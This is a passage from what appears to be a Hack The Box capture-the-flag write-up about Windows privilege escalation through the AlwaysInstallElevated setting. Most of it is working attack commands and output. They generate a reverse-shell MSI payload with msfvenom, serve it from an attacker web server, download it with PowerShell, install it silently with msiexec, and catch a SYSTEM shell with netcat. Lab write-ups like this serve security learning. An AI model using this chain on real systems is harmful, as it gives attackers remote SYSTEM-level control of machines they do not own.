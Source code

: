There are more potential vulnerabilities found.
Among these, I think `AlwaysInstallElevated` is critical.
Here's the reference:
https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/

Let's create a payload and transfer it through web server.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 lport=9001 -a x64 --platform windows -f msi -o ignite.msi
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: ignite.msi
  
┌──(kali㉿kali)-[~/htb]
└─$ ls
exploit.py  ignite.msi  port-scan.sh  test.php
  
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.239 - - [24/Dec/2024 02:06:15] "GET /ignite.msi HTTP/1.1" 200 -
```

Then, let's download it and install it.

```bash
c:\Users\Phoebe\Documents>powershell wget http://10.10.14.14:8000/ignite.msi -o ignite.msi    
powershell wget http://10.10.14.14:8000/ignite.msi -o ignite.msi

c:\Users\Phoebe\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of c:\Users\Phoebe\Documents

12/23/2024  11:27 PM    <DIR>          .
12/23/2024  11:27 PM    <DIR>          ..
12/23/2024  11:27 PM           159,744 ignite.msi
12/23/2024  11:09 PM         9,856,000 wp.exe
               2 File(s)     10,015,744 bytes
               2 Dir(s)   4,120,875,008 bytes free

c:\Users\Phoebe\Documents>msiexec /quiet /qn /i ignite.msi
msiexec /quiet /qn /i ignite.msi
```

And, let's wait on listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.239] 49602
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

I got root!